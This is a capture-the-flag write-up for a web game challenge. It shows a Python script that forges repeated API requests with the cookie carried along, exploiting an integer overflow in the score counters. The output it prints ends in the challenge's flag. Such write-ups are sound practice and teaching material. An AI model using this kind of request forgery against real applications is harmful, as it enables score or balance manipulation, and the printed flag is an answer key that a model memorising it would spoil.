

# Description
R-Boy arrives in the Web Realm, a celestial domain comprised of floating islands in the digital sky. These highly interconnected islands create an intricate network resembling a spider's web. Here, energy flows swiftly, and R-Boy senses a strange energy.
http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/
# Write-up

Loading up burp and browsing to the given URL, we can observe a game where we move sideways to collect goats. Each red goat is -2000 points, each green goat is +2000 points.
Goal is to obtain at least 65536 points, which is already a good hint that this might have something to do with 16bit int overflows.




Burp reveals the API requests for each type of goat.


Important to note that there are positive and negative scores contributing to the total score, and that the current score status is kept in the cookie.

Just trying to collect green goats from calling the API directly reveals an int underflow on the negative score, so we can combine both scores to reach a higher value. We reach the maximum value possible for the positive score, and keep collecting red goats until the value underflows and becomes positive, scoring us the flag:

```
import requests
import time

s = requests.Session()
goat = {'type': 'green'}
x = requests.post('http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/got-a-goat', data = goat)

for i in range(32):
    x = requests.post('http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/got-a-goat', data = goat, cookies=x.cookies.get_dict())
    print(x.content)
    time.sleep(2)

goat = {'type': 'red'}
for i in range(36):
    x = requests.post('http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/got-a-goat', data = goat, cookies=x.cookies.get_dict())
    print(x.content)
    time.sleep(2)
```

```
...
b'{"negative_score":62000,"positive_score":64000,"total_score":2000}\n'
b'{"negative_score":64000,"positive_score":64000,"total_score":0}\n'
b'{"negative_score":66000,"positive_score":64000,"total_score":"{FLG:y0U-aT3_700-mUch_B4D_GO4T}"}\n'
```